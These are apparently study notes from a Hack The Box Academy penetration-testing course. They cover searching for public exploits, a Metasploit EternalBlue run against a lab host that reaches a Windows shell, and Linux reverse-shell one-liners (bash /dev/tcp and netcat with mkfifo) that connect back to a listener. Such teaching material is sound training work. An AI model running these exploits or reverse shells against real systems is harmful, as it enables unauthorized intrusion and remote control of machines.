 ## Finding Public Exploits

search for a service using google:

ex: windows 7 smb exploit

```
searchsploit openssh 7.2
```

Other online databases:

- https://www.exploit-db.com/
- https://www.rapid7.com/db/
- https://www.vulnerability-lab.com/

## Metasploit Primer

```
msfconsole
search exploit eternalblue # search metasploit for a particular service exploit
use exploit/windows/smb/sm17_010_psexec # load an exploit
show options
set RHOSTS 10.10.10.40
check
exploit
meterpreter > getuid
meterpreter > shell
C:\WINDOWS\system32>whoami
```



# [Types of Shells](https://academy.hackthebox.com/module/77/section/725)

## Reverse Shell

start a netcat listener for the shell to connect to:

```
nc -lvnp 1234
# -l	Listen mode, to wait for a connection to connect to us.
# -v	Verbose mode, so that we know when we receive a connection.
# -n	Disable DNS resolution and only connect from/to IPs, to speed up the connection.
# -p 1234	Port number netcat is listening on, and the reverse connection should be sent to.
```

Reverse shell on a Linux maching:

```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
